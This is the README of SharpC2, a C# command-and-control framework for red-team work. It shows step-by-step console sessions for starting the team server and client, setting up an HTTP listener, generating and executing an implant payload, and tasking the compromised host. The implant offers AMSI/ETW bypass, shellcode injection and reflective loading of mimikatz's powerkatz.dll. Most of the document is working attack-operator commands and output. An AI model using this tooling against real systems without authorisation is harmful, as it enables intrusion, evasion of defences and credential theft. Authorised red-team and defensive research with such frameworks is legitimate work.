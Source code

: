 [![Build Status](https://travis-ci.com/SharpC2/SharpC2.svg?branch=main)](https://travis-ci.com/SharpC2/SharpC2)
[![Documentation Status](https://readthedocs.org/projects/sharpc2/badge/?version=latest)](https://sharpc2.readthedocs.io/en/latest/?badge=latest)

# SharpC2

SharpC2 is a Command and Control Framework written in C#.

The solution consists of an ASP.NET Core Team Server, a .NET Framework Implant, and a .NET Client.

## Quick Start

The quickest way to have a play with the framework is clone the repo, then build and run the Debug versions.

### Start the Team Server

```
C:\SharpC2\TeamServer> dotnet build
TeamServer -> C:\SharpC2\TeamServer\bin\Debug\net5.0\TeamServer.dll

C:\SharpC2\TeamServer\bin\Debug\net5.0> dotnet TeamServer.dll --password Passw0rd!
info: Microsoft.Hosting.Lifetime[0]
      Now listening on: https://0.0.0.0:8443
info: Microsoft.Hosting.Lifetime[0]
      Application started. Press Ctrl+C to shut down.
info: Microsoft.Hosting.Lifetime[0]
      Hosting environment: Production
info: Microsoft.Hosting.Lifetime[0]
      Content root path: C:\SharpC2\TeamServer\bin\Debug\net5.0
```

**Note**:  If the server starts in `Development` mode, it will only listen for connections on the `localhost`.  To ensure it runs in `Production` mode (and therefore listen for connections on all interfaces) set the `ASPNETCORE_ENVIRONMENT` variable to `Production`.

### Start the Client

```
C:\SharpC2\Client> dotnet build
Client -> C:\SharpC2\Client\bin\Debug\net5.0\SharpC2.dll

C:\SharpC2\Client\bin\Debug\net5.0>dotnet SharpC2.dll
  ___ _                   ___ ___
 / __| |_  __ _ _ _ _ __ / __|_  )
 \__ \ ' \/ _` | '_| '_ \ (__ / /
 |___/_||_\__,_|_| | .__/\___/___|
                   |_|
    @_RastaMouse
    @_xpn_

(server)>
```

### Connect to the Team Server

```
(server)> localhost
(port)> 8443
(nick)> rasta
(pass)>

Server Certificate
------------------

[Subject]
  CN=localhost

[Issuer]
  CN=localhost

[Serial Number]
  67B4A5487F67745B

[Not Before]
  25/02/2021 21:01:43

[Not After]
  25/02/2022 21:01:43

[Thumbprint]
  B968C8D9C2B40F4AD7A46C92B0B700DEE46492FE

(accept? [y/N])> y
[drones] #
```

The client also supports command line arguments for faster setup.

```
C:\SharpC2\Client\bin\Debug\net5.0>dotnet SharpC2.dll --server localhost --port 8443 --nick rasta --password Passw0rd!
```

### Configure and Start the Default HTTP Handler

```
[drones] # handlers

[handlers] # list

Name          Running
----          -------
default-http  False

[handlers] # config default-http

[default-http] # show

Name            Value      Optional
----            -----      --------
BindPort        80         False
ConnectAddress  localhost  False
ConnectPort     80         False

[default-http] # set BindPort 8080
[default-http] # set ConnectPort 8080
[default-http] # show

Name            Value      Optional
----            -----      --------
BindPort        8080       False
ConnectAddress  localhost  False
ConnectPort     8080       False

[default-http] # start
[+] Handler "default-http" started.

[default-http] # back

[handlers] # list

Name          Running
----          -------
default-http  True
```

### Generate a Payload for the Handler

```
[drones] # payloads

[payloads] # show

Handler  Format  DllExport
-------  ------  ---------
         Exe     Execute

[payloads] # set Handler default-http

[payloads] # help generate

Generate payload
Usage: generate </output/path>

[payloads] # generate C:\Temp\drone.exe
[+] Saved 74240 bytes.
```

Execute the payload.

```
C:\Temp> drone.exe
```

### Interacting with a Drone

```
[drones] # list

Guid        Address      Hostname      Username  Process  PID    Arch  LastSeen
----        -------      --------      --------  -------  ---    ----  --------
655a3dea9d  172.20.64.1  Ghost-Canyon  Daniel    drone    32748  x64   0.29s

[drones] # interact 655a3dea9d

[655a3dea9d] # help

Name              Description
----              -----------
back              Back to previous screen
bypass            Set a directive to bypass AMSI/ETW on tasks
cd                Change working directory
execute-assembly  Execute a .NET assembly
exit              Exit this Drone
getuid            Get current identity
help              Get help
load-module       Load an external Drone module
ls                List filesystem
overload          Map and execute a native DLL
ps                List running processes
pwd               Print working directory
run               Run a command
shell             Run a command via cmd.exe
shinject          Inject arbitrary shellcode into a process
sleep             Set sleep interval and jitter

[655a3dea9d] # help overload
Map a native DLL into memory
Usage: overload [/path/to/dll] [export] <args>

[655a3dea9d] # overload C:\Tools\mimikatz\x64\powerkatz.dll powershell_reflective_mimikatz coffee
[+] Drone tasked: 668a2b4acb
[+] Drone checked in. Sent 1878149 bytes.
[+] Output received:

  .#####.   mimikatz 2.2.0 (x64) #19041 Mar  3 2021 14:35:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

[+] Task complete.
```

## Documentation

See more documentation on [Read the Docs](https://sharpc2.readthedocs.io/en/latest/index.html).